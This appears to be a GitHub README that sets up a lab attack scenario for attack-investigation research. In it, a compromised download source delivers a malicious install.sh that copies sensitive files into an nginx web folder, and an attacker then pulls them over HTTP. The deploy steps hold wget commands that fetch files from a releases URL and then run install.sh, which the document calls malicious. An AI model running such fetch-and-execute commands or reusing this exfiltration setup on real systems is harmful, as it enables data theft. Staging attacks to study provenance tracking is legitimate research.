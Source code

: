 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar scenario

[Rain: Refinable Attack Investigation with On-demand Inter-Process Information Flow Tracking](https://iisp.gatech.edu/sites/default/files/images/rain.pdf)

In their motivating example, the attacker compromised a distribution site of an firefox extension *FireFTP*, the original extension has been replaced with a malicious one.

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/install.sh \
       https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/util.deb \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg1 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg2 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg3 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg4 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg5 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg6 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg7 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg8 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg9 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg10 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg11 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg12 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg13 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg14 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg15 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg16 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg17 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg18 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg19 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg20 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg21 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg22 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg23 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg24 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg25 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg26 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg27 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg28 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg29 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg30 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg31 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg32 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg33 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg34 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg35 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg36 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg37 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg38 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg39 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg40 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg41 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg42 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg43 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg44 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg45 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg46 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg47 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg48 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg49 \
        https://github.com/Icegrave0391/attack-scenarios/releases/download/util.deb/wh-pkg50

chmod 777 install.sh
./install.sh
```
2. Execute malicious `install.sh`

```
./install.sh
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

